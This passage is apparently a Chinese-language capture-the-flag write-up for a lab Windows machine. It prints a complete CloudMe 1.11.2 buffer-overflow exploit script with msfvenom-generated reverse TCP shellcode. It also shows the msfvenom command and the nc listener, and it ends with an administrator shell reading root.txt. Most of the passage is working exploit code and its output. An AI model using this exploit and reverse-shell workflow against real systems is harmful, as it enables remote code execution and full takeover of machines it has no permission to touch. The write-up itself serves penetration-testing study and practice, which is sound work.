#### 默认情况下，脚本中的有效负载看起来是msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python的输出。给定四个字节的地址和对ESP和EIP（相对于RSP和RIP）的引用，这是一个32位程序。
#### 我将使用msfvenom来生成我自己的有效载荷，它将返回一个无阶段（可以用nc捕获）反向tcp shell：
```
[★]$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.134 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xbe\xf4\xdb\x75\x42\xd9\xcd\xd9\x74\x24\xf4"
payload += b"\x5a\x31\xc9\xb1\x52\x31\x72\x12\x83\xc2\x04"
payload += b"\x03\x86\xd5\x97\xb7\x9a\x02\xd5\x38\x62\xd3"
payload += b"\xba\xb1\x87\xe2\xfa\xa6\xcc\x55\xcb\xad\x80"
payload += b"\x59\xa0\xe0\x30\xe9\xc4\x2c\x37\x5a\x62\x0b"
payload += b"\x76\x5b\xdf\x6f\x19\xdf\x22\xbc\xf9\xde\xec"
payload += b"\xb1\xf8\x27\x10\x3b\xa8\xf0\x5e\xee\x5c\x74"
payload += b"\x2a\x33\xd7\xc6\xba\x33\x04\x9e\xbd\x12\x9b"
payload += b"\x94\xe7\xb4\x1a\x78\x9c\xfc\x04\x9d\x99\xb7"
payload += b"\xbf\x55\x55\x46\x69\xa4\x96\xe5\x54\x08\x65"
payload += b"\xf7\x91\xaf\x96\x82\xeb\xd3\x2b\x95\x28\xa9"
payload += b"\xf7\x10\xaa\x09\x73\x82\x16\xab\x50\x55\xdd"
payload += b"\xa7\x1d\x11\xb9\xab\xa0\xf6\xb2\xd0\x29\xf9"
payload += b"\x14\x51\x69\xde\xb0\x39\x29\x7f\xe1\xe7\x9c"
payload += b"\x80\xf1\x47\x40\x25\x7a\x65\x95\x54\x21\xe2"
payload += b"\x5a\x55\xd9\xf2\xf4\xee\xaa\xc0\x5b\x45\x24"
payload += b"\x69\x13\x43\xb3\x8e\x0e\x33\x2b\x71\xb1\x44"
payload += b"\x62\xb6\xe5\x14\x1c\x1f\x86\xfe\xdc\xa0\x53"
payload += b"\x50\x8c\x0e\x0c\x11\x7c\xef\xfc\xf9\x96\xe0"
payload += b"\x23\x19\x99\x2a\x4c\xb0\x60\xbd\x79\x4f\x64"
payload += b"\xbb\x16\x4d\x78\xc2\x5d\xd8\x9e\xae\xb1\x8d"
payload += b"\x09\x47\x2b\x94\xc1\xf6\xb4\x02\xac\x39\x3e"
payload += b"\xa1\x51\xf7\xb7\xcc\x41\x60\x38\x9b\x3b\x27"
payload += b"\x47\x31\x53\xab\xda\xde\xa3\xa2\xc6\x48\xf4"
payload += b"\xe3\x39\x81\x90\x19\x63\x3b\x86\xe3\xf5\x04"
payload += b"\x02\x38\xc6\x8b\x8b\xcd\x72\xa8\x9b\x0b\x7a"
payload += b"\xf4\xcf\xc3\x2d\xa2\xb9\xa5\x87\x04\x13\x7c"
payload += b"\x7b\xcf\xf3\xf9\xb7\xd0\x85\x05\x92\xa6\x69"
payload += b"\xb7\x4b\xff\x96\x78\x1c\xf7\xef\x64\xbc\xf8"
payload += b"\x3a\x2d\xcc\xb2\x66\x04\x45\x1b\xf3\x14\x08"
payload += b"\x9c\x2e\x5a\x35\x1f\xda\x23\xc2\x3f\xaf\x26"
payload += b"\x8e\x87\x5c\x5b\x9f\x6d\x62\xc8\xa0\xa7"
```
#### 我更改了有效负载类型（包括此有效负载所需的LHOST和LPORT），并且使用-v payload设置输出有效负载变量名称，以便将其粘贴到脚本中。
### shell
#### 现在我只是在nc等待的情况下通过隧道运行这个漏洞（使用传统的Python或Python3）：
```
[★]$ vi 48389.py
┌─[us-dedivip-1]─[10.10.14.134]─[syareya55@htb-s603trvnp5]─[~]
└──╼ [★]$ cat 48389.py
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xbe\xf4\xdb\x75\x42\xd9\xcd\xd9\x74\x24\xf4"
payload += b"\x5a\x31\xc9\xb1\x52\x31\x72\x12\x83\xc2\x04"
payload += b"\x03\x86\xd5\x97\xb7\x9a\x02\xd5\x38\x62\xd3"
payload += b"\xba\xb1\x87\xe2\xfa\xa6\xcc\x55\xcb\xad\x80"
payload += b"\x59\xa0\xe0\x30\xe9\xc4\x2c\x37\x5a\x62\x0b"
payload += b"\x76\x5b\xdf\x6f\x19\xdf\x22\xbc\xf9\xde\xec"
payload += b"\xb1\xf8\x27\x10\x3b\xa8\xf0\x5e\xee\x5c\x74"
payload += b"\x2a\x33\xd7\xc6\xba\x33\x04\x9e\xbd\x12\x9b"
payload += b"\x94\xe7\xb4\x1a\x78\x9c\xfc\x04\x9d\x99\xb7"
payload += b"\xbf\x55\x55\x46\x69\xa4\x96\xe5\x54\x08\x65"
payload += b"\xf7\x91\xaf\x96\x82\xeb\xd3\x2b\x95\x28\xa9"
payload += b"\xf7\x10\xaa\x09\x73\x82\x16\xab\x50\x55\xdd"
payload += b"\xa7\x1d\x11\xb9\xab\xa0\xf6\xb2\xd0\x29\xf9"
payload += b"\x14\x51\x69\xde\xb0\x39\x29\x7f\xe1\xe7\x9c"
payload += b"\x80\xf1\x47\x40\x25\x7a\x65\x95\x54\x21\xe2"
payload += b"\x5a\x55\xd9\xf2\xf4\xee\xaa\xc0\x5b\x45\x24"
payload += b"\x69\x13\x43\xb3\x8e\x0e\x33\x2b\x71\xb1\x44"
payload += b"\x62\xb6\xe5\x14\x1c\x1f\x86\xfe\xdc\xa0\x53"
payload += b"\x50\x8c\x0e\x0c\x11\x7c\xef\xfc\xf9\x96\xe0"
payload += b"\x23\x19\x99\x2a\x4c\xb0\x60\xbd\x79\x4f\x64"
payload += b"\xbb\x16\x4d\x78\xc2\x5d\xd8\x9e\xae\xb1\x8d"
payload += b"\x09\x47\x2b\x94\xc1\xf6\xb4\x02\xac\x39\x3e"
payload += b"\xa1\x51\xf7\xb7\xcc\x41\x60\x38\x9b\x3b\x27"
payload += b"\x47\x31\x53\xab\xda\xde\xa3\xa2\xc6\x48\xf4"
payload += b"\xe3\x39\x81\x90\x19\x63\x3b\x86\xe3\xf5\x04"
payload += b"\x02\x38\xc6\x8b\x8b\xcd\x72\xa8\x9b\x0b\x7a"
payload += b"\xf4\xcf\xc3\x2d\xa2\xb9\xa5\x87\x04\x13\x7c"
payload += b"\x7b\xcf\xf3\xf9\xb7\xd0\x85\x05\x92\xa6\x69"
payload += b"\xb7\x4b\xff\x96\x78\x1c\xf7\xef\x64\xbc\xf8"
payload += b"\x3a\x2d\xcc\xb2\x66\x04\x45\x1b\xf3\x14\x08"
payload += b"\x9c\x2e\x5a\x35\x1f\xda\x23\xc2\x3f\xaf\x26"
payload += b"\x8e\x87\x5c\x5b\x9f\x6d\x62\xc8\xa0\xa7"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...

```
```
[★]$ python3 48389.py
```
```
 [★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.2.18] 49707
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>type ..\..\Users\Administrator\Desktop\root.txt
```
